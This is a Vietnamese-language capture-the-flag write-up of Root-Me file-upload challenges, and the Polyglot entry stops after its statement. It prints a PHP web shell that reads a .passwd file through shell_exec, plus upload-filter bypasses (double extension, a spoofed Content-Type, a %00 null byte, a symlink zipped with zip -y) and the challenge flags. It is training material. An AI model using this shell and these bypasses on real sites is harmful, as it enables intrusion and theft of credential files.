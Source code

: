 
# File upload - Double extensions
**Statement**

Your goal is to hack this photo galery by uploading PHP code.

Retrieve the validation password in the file .passwd at the root of the application.

## Cách làm
Chall: http://challenge01.root-me.org/web-serveur/ch20/

![image](https://github.com/aQ05/Write-up.training/assets/121664384/dd695a09-b2e1-47d8-9102-008a93ac9808)

Từ gợi ý đề bài, ta sẽ tìm cách upload file lên server và đọc file `.passwd` để tìm password thì nhận được lỗi `403 Forbidden`, có nghĩa là có file này nhưng bị giới hạn access:

![image](https://github.com/aQ05/Write-up.training/assets/121664384/2f2a7a05-2042-4dff-9351-fbbe61f4a6a5)

Mở phần upload của server, web chỉ cho upload file ảnh có đuôi `only .gif, .jpeg and .png`.

![image](https://github.com/aQ05/Write-up.training/assets/121664384/091bf4af-0ae0-4b91-8a37-f8e757db6daa)

Thử upload một file:

![image](https://github.com/aQ05/Write-up.training/assets/121664384/ff191227-9f42-4a2f-be32-fcc88ebe2b97)

Như vậy, để đọc được `.passwd`, ta cần phải đi ngược folder 3 lần nằm tại `../../../.passwd`

Để đọc được `.passwd`, ta thử sử dụng cổng này để upload file `.php` lên server và buộc server sử dụng `shell_exec()` để thực thi shell:
```php
<?php
$output = shell_exec('cat ../../../.passwd');
echo "<pre>$output</pre>";
?>
```
> Lệnh `cat` cho phép người dùng tạo một hoặc nhiều file, xem nội dung file, nối file và chuyển hướng đầu ra trong terminal hoặc file.
> [shell_exec](https://www.php.net/manual/en/function.shell-exec.php): thực thi lệnh qua shell và trả về đầu ra hoàn chỉnh dưới dạng chuỗi

Đề bài đã gợi ý cho ta sử dụng Double Extensions, do đó thử rename file `.php` thành `.php.png` và upload:

![image](https://github.com/aQ05/Write-up.training/assets/121664384/e814115b-022a-435a-b933-0237c030467c)

Mở file đã upload:

![image](https://github.com/aQ05/Write-up.training/assets/121664384/410d2f24-3879-48a5-830f-f5c2796dfffc)

## Flag
`Gg9LRz-hWSxqqUKd77-_q-6G8`

# File upload - MIME type

**Statement**

Your goal is to hack this photo galery by uploading PHP code.

Retrieve the validation password in the file .passwd at the root of the application.

## Cách làm
Chall: http://challenge01.root-me.org/web-serveur/ch21/

![image](https://github.com/aQ05/Write-up.training/assets/121664384/80b89c10-5442-4504-856a-cea0e8fe2c85)

Tương tự như bài trên, web chỉ cho upload file ảnh có đuôi `only .gif, .jpeg and .png`.

![image](https://github.com/aQ05/Write-up.training/assets/121664384/67334c23-c269-4918-af2b-33b7f5cdd3fe)

Thử với web shell như bài trên nhưng không thu được gì

![image](https://github.com/aQ05/Write-up.training/assets/121664384/ca747dad-3b0e-4451-9559-07eec4fc7ea8)

Tên chall là MIME ta nghĩ đến cách thử đổi Content-type:

![image](https://github.com/aQ05/Write-up.training/assets/121664384/0b125dd9-0f87-4912-b416-d7ec9d4b32b9)

Khi tải lên file `shell.php` ta sẽ có Content-Type là `application/octet-stream` chính vì vậy nên file bị filter và dẫn đến `Wrong file type!`. Giờ chỉ cần đổi Content-type sang `image/png` là được: 

![image](https://github.com/aQ05/Write-up.training/assets/121664384/ed4c1152-b404-4c12-b36c-f59728a358b1)

![image](https://github.com/aQ05/Write-up.training/assets/121664384/711e82b0-c021-4bbb-90ae-c05b486c3e34)

Mở file đã upload

![image](https://github.com/aQ05/Write-up.training/assets/121664384/e8151dae-6cb3-4881-8bcf-8b6ba21e700d)

## Flag
`a7n4nizpgQgnPERy89uanf6T4`

# File upload - Null byte
**Statement**

Your goal is to hack this photo galery by uploading PHP code.

## Cách làm
Chall: http://challenge01.root-me.org/web-serveur/ch22/

![image](https://github.com/aQ05/Write-up.training/assets/121664384/9f610409-6857-44a9-ae4a-031a77dec262)

Tương tự như bài trên, web chỉ cho upload file ảnh có đuôi `only .gif, .jpeg and .png`.

Thử với web shell như các bài trên và tất nhiên không được. Tên chall là Null Byte nên ta có thể bypass bằng cách sử dụng `%00`

![image](https://github.com/aQ05/Write-up.training/assets/121664384/58155bf0-d180-472a-b81e-3c4e1b5838de)

> `%00` tương đương giá trị null, khi nhận tên file vào đến giá trị null thì bị dừng lại và ta có thể tải lên file shell.php

Mở file đã upload

![image](https://github.com/aQ05/Write-up.training/assets/121664384/88e2e80f-38db-4582-b321-11b6b5ca13f5)

## Flag
`YPNchi2NmTwygr2dgCCF`


# File upload - ZIP
**Statement**

Your goal is to read index.php file.

## Cách làm
Chall: http://challenge01.root-me.org/web-serveur/ch51/

![image](https://github.com/aQ05/Write-up.training/assets/121664384/679fecca-4a61-4244-bfa4-aa8097f93152)

Thử tải web shell, ta không thu được gì cả:

![image](https://github.com/aQ05/Write-up.training/assets/121664384/4b25320a-4fae-4b9f-bfbe-01935f4c5116)

Tiếp tục thử với một file `shell.zip`

![image](https://github.com/aQ05/Write-up.training/assets/121664384/e2c6991c-7e5b-4c86-9983-246e25f6d58f)

Khi upload file zip thì server đổi tên file và giải nén file đó. File zip chứa media, document thì mở ra xem bình thường. Tuy nhiên file `.php` khi mở thì bị lỗi (403 Forbidden):

![image](https://github.com/aQ05/Write-up.training/assets/121664384/7219587c-b252-4cc3-a280-2267537325ab)

Tạo symlink đến file index.php cần đọc

`$ ln -s ../../../index.php shell.txt`

Sau đó nén file shell.txt vừa tạo lại

`$ zip -y shell.zip shell.txt`

![Screenshot 2023-11-25 232549](https://github.com/aQ05/Write-up.training/assets/121664384/537bc188-8acb-45a5-b936-1aed5ca2a640)

> [symbolic / soft link](https://clammy-snowstorm-0d2.notion.site/symbolic-soft-link-05ca57bf671a42acae52cfba49f19cb5) được sử dụng để tạo lối tắt đến tệp hoặc thư mục, giúp chúng ta có thể truy cập được từ các vị trí khác nhau trong hệ thống tệp.
>
> `ln -s ../../../index.php index.txt`
> 
> `ln`: tạo link trong linux
> 
> `-s`: chỉ định một liên kết symbolic được tạo

![image](https://github.com/aQ05/Write-up.training/assets/121664384/8f819beb-19d5-4335-b6c7-677d073d4596)

## Flag
`N3v3r_7rU5T_u5Er_1npU7`
# File upload - Polyglot
**Statement**

Your friend who is a photography fan has created a site to allow people to share their beautiful photos. He assures you that his site is secure because he checks that the file sent is a JPEG, and that it is not a disguised PHP file. Prove him wrong!
## Cách làm
Chall: http://challenge01.root-me.org:59072/


